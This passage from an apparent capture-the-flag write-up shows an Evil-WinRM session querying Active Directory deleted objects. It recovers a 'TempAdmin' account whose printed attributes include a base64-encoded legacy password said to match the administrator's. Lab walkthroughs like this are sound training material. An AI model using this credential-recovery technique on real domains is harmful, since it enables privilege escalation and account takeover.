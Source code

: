 ```
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

Oh! `TempAdmin`. **Recalling** our SMB note which says that there was a `TempAdmin` account which uses the same password as the administrator. We will need to recover that now.

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -Properties *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```
